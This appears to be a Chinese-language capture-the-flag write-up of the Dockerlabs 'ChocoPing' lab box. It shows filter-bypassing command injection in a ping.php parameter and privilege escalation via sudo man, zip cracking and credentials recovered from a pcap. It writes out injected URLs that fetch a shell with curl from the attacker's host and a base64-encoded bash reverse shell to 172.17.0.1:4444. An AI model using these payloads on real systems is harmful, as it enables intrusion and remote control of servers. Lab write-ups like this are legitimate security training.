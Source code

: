 ```yaml
---
title: "Dockerlabs-ChocoPing"
date: 2025-04-15
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Chocoping  
❯ nmap 172.17.0.2 -sV -A -p- 

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62
|_http-title: Index of /
|_http-server-header: Apache/2.4.62 (Debian)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.0K  2025-04-05 11:13  ping.php
```

## Own www-data

注意到可以传入**ip**参数执行**ping**命令

![](./images/image-77.png)

下面我会用两种扫描工具来进行对比

这里使用**wfuzz**来进行扫描

```
[root@kali] /home/kali/Chocoping  
❯ wfuzz -c --hw 3 -z file,../Desktop/fuzzDicts/rcePayloads/RCE-filter-and-WAF-Bypass.txt "http://172.17.0.2/ping.php?ip=127.0.0.1;FUZZ"

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/ping.php?ip=127.0.0.1;FUZZ
Total requests: 174

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000000070:   200        0 L      1 W        22 Ch       "c\\a\\t+/et\\c/pas\\swd"                                                                  
000000165:   200        0 L      1 W        22 Ch       "cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`"                             
000000142:   200        1 L      12 W       126 Ch      "\u\n\a\m\e \-\a"                                                                          

Total time: 0.078702
Processed Requests: 174
Filtered Requests: 171
Requests/sec.: 2210.858
```

可以看到其中**uname**的执行结果

![](./images/image-78.png)

接下来使用**ffuf**，得到同样的结果

```
[root@kali] /home/kali/Chocoping  
❯ ffuf -u 'http://172.17.0.2/ping.php?ip=127.0.0.1;FUZZ' -w ../Desktop/fuzzDicts/rcePayloads/RCE-filter-and-WAF-Bypass.txt -enc 'FUZZ:urlencode' -fs 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/ping.php?ip=127.0.0.1;FUZZ
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/rcePayloads/RCE-filter-and-WAF-Bypass.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 21
________________________________________________

c%5C%5Ca%5C%5Ct%2B%2Fet%5C%5Cc%2Fpas%5C%5Cswd [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 4ms]
%5Cu%5Cn%5Ca%5Cm%5Ce+%5C-%5Ca [Status: 200, Size: 126, Words: 11, Lines: 2, Duration: 4ms]
cat+%60echo+-e+%22%5Cx2f%5Cx65%5Cx74%5Cx63%5Cx2f%5Cx70%5Cx61%5Cx73%5Cx73%5Cx77%5Cx64%22%60 [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 3ms]
:: Progress: [174/174] :: Job [1/1] :: 145 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

两者的区别就在于，**wfuzz**会自动进行**urlencode**，而**ffuf**需要指定编码

就这里而言，命令的执行方式类似于把所有字符前面加上一个斜杠

```
\u\n\a\m\e \-\a
```

经过测试，只有第一个单词需要这样做

```
http://172.17.0.2/ping.php?ip=127.0.0.1;\c\u\r\l%20172.17.0.1/shell%20-O%20/tmp/shell
```

我这里使用的是**penelope**的**payload**

```
http://172.17.0.2/ping.php?ip=127.0.0.1;\p\r\i\n\t\f%20%20KGJhc2ggPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS80NDQ0ICAwPiYxKSAm|base64%20-d%20|%20bash
```

需要注意的是如果**URL**中存在**base64**编码的话，要尽量避免加号和一些特殊符号，因为会被转义

比如这里我就修改了一下他的**payload**，通过调整其中的空格间距来消除加号和等号

![](./images/image-79.png)

![](./images/image-80.png)

## Own balutin

```
www-data@df356a56c13a:/var/www$ sudo -l
Matching Defaults entries for www-data on df356a56c13a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on df356a56c13a:
    (balutin) NOPASSWD: /usr/bin/man
```

- [man | GTFOBins](https://gtfobins.github.io/gtfobins/man/#sudo)

![](./images/image-81.png)

## Root

尝试爆破这个压缩包的密码

```
[root@kali] /home/kali/Chocoping  
❯ zip2john secretito.zip >> zip.hash  

[root@kali] /home/kali/Chocoping  
❯ john zip.hash /usr/share/wordlists/rockyou.txt
```

![](./images/image-82.png)

得到密码是**chocolate**

使用**wireshark**一下就能看到密码了

![](./images/image-83.png)

```
[root@kali] /home/kali/Chocoping  
❯ strings traffic.pcap 
POST /login HTTP/1.1
Host: ejemplo.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
username=root&password=secretitosecretazo!
GET /private HTTP/1.1
Authorization: Basic cm9vdDpTdXBlclNlY3JldDEyMyE=
Host: ejemplo.com
```

![](./images/image-84.png)

## Summary

`User`：主要是使用**ffuf**的时候注意一下**url**编码

`Root`：**zip**压缩包爆破
